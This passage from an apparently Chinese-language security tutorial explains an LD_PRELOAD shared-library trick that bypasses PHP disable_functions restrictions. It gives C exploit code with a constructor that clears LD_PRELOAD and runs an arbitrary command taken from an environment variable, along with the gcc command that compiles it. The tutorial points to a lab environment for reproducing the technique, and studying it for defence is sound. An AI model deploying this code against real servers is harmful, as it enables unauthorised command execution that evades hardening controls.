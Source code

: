 #### [](#322-%E5%88%A9%E7%94%A8-1)3.2.2 利用

简单的 exp：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```c<br>#define _GNU_SOURCE<br>#include <stdlib.h><br>#include <unistd.h><br>#include <sys/types.h><br><br>__attribute__ ((__constructor__)) void preload (void){<br>    unsetenv("LD_PRELOAD");<br>    system("whoami > /tmp/leon");<br>}<br>``` |

但是`unsetenv()`在 Centos 上无效，因为 Centos 自己也 hook 了 `unsetenv()`，在其内部启动了其他进程，来不及删除 `LD_PRELOAD` 就又被劫持，导致无限循环，可以使用全局变量 `extern char** environ`删除，实际上，`unsetenv()` 就是对 environ 的简单封装实现的环境变量删除功能。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```c<br>#define _GNU_SOURCE<br>#include <stdlib.h><br>#include <stdio.h><br>#include <string.h><br><br>extern char** environ;<br>__attribute__ ((__constructor__)) void preload (void)<br>{<br>    // get command line options and arg<br>    const char* cmdline = getenv("EVIL_CMDLINE");<br>    // unset environment variable LD_PRELOAD.<br>    // unsetenv("LD_PRELOAD") no effect on some <br>    // distribution (e.g., centos), I need crafty trick.<br>    int i;<br>    for (i = 0; environ[i]; ++i) {<br>            if (strstr(environ[i], "LD_PRELOAD")) {<br>                    environ[i][0] = '\0';<br>            }<br>    }<br>    // executive command<br>    system(cmdline);<br>}<br>``` |

使用 for 循环修改 `LD_PRELOAD` 的首个字符改成 `\0`，`\0` 是 C 语言字符串结束标记，这样可以让系统原有的 `LD_PRELOAD` 环境变量自动失效。

编译：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>gcc -c -fPIC exp.c -o hack && gcc --share hack -o exp.so<br>``` |

详情可见：[bypass\_disablefunc\_via\_LD\_PRELOAD](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)。

在 [AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs) 有相关环境，复现该漏洞。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108312125514.png-water_print](assets/1699410109-edf30ee2ff7e3573ea2577997c179a32.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108312125514.png-water_print")
